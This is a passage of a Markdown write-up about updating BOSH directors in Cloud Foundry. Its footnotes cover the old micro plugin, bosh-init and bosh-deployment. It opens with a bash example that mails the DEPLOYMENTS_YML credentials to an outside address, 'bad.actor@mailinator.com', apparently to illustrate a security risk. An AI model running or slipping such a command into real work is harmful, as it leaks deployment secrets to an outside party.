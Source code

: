 ```bash
echo ${DEPLOYMENTS_YML} | mail -s "secret credentials" bad.actor@mailinator.com
```

## Footnotes

<a name="quis"><sup>[Quis custodiet?]</sup></a> "Who updates the VM [BOSH
director] that keeps the other VMs updated?" is the question, versions of which
have been asked as long ago as the days of the Roman poet Juvenal, who famously
asked, "[Quis custodiet ipsos
custodes?](https://en.wikipedia.org/wiki/Quis_custodiet_ipsos_custodes%3F)" and
as recently as this century by comic book writer Alan Moore, who phrased it,
"Who watches the Watchmen?"

<a name="how_recent"><sup>[How recent?]</sup></a>
How fresh is `bosh-deployment`? Fresh.  `bosh-deployment` is a quite
active git repo, typically updated [several times or more each
week](https://github.com/cloudfoundry/bosh-deployment/graphs/commit-activity).
It's the tool that the BOSH team, and many Cloud Foundry teams, use to keep
their BOSH directors current.

<a name="bosh_up_to_date"><sup>[Updating BOSH]</sup></a> In the early days, the
BOSH micro plugin was the mechanism to update the BOSH director. There were
several drawbacks to the micro plugin, one of which is that it forced the BOSH
CLI to have an understanding of the API for various IaaSes, breaking the Cloud
Layer abstraction model.

Another drawback of the BOSH micro plugin was that it was brittle, so much so
that it was a common pattern to deploy a BOSH director whose sole purpose was to
deploy the "real" BOSH director. "Ha!" one might ask, "But how did you keep that
first BOSH director up-to-date?" The answer is simple: you didn't. You left that
first BOSH director running and never touched it except to redeploy the "real"
BOSH director. You might spin it down if you weren't using it, but you never
deleted it or updated it.

These were serious problems, and to address them the BOSH Core team wrote
[`bosh-init`](https://github.com/cloudfoundry/docs-bosh/commit/a159cc4f6633ca26d7c9ce1d4ace961b0d1bad20),
a Golang-based executable whose purpose was to deploy BOSH directors. It adhered
to the Cloud Layer abstraction models (it used the existing CPIs (Cloud Provider
Interfaces) for the existing IaaSes ([VMware
vSphere](https://github.com/cloudfoundry-incubator/bosh-vsphere-cpi-release),
[Google Cloud
Platform](https://github.com/cloudfoundry-incubator/bosh-google-cpi-release)
(GCP),
[OpenStack](https://github.com/cloudfoundry-incubator/bosh-openstack-cpi-release),
[Microsoft
Azure](https://github.com/cloudfoundry-incubator/bosh-azure-cpi-release), among
others)).

By April 30, 2015, `bosh-init` was production-ready, and the BOSH documentation
was [updated](https://github.com/cloudfoundry/docs-bosh/commit/a159cc4f6633ca26d7c9ce1d4ace961b0d1bad20)
to reflect the new world order.
